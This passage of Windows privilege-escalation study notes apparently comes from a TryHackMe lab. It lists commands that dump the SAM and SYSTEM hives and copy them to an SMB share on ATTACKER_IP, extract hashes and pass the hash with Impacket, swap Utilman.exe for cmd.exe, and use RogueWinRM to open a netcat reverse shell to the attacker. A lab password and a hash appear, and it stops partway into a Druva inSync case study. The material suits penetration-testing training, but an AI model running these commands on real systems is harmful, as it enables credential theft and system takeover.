 To backup the SAM and SYSTEM hashes, we can use the following commands:

* `C:\> reg save hklm\system`
* `C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive`

**Kali Linux**

* `mkdir share`
* `python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`
* `C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`
* `C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`

**Kali Linux**

* `python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL Impacket v0.9.24.dev1+20210704.162046.29ad5792`
* `python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 administrator@10.10.167.202`

#### SeTakeOwnership

The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges.

* `C:\> takeown /f C:\Windows\System32\Utilman.exe`
* `C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
* `C:\Windows\System32\> copy cmd.exe utilman.exe`

#### SeImpersonate / SeAssignPrimaryToken

These privileges allow a process to impersonate other users and act on their behalf.

**Kali Linux**

* `nc -lvp 4442`

**Power Shell**

* `c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`
* The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case.
* The `-a` parameter is used to pass arguments to the executable.

## Abusing vulnerable software

### Unpatched Software

the `wmic` tool to list software installed on the target system and its versions.

`wmic product get name,version,vendor`

### Case Study: Druva inSync 6.6.3

* The software is vulnerable because it runs an RPC (Remote Procedure Call) server on port 6064 with SYSTEM privileges, accessible from localhost only.
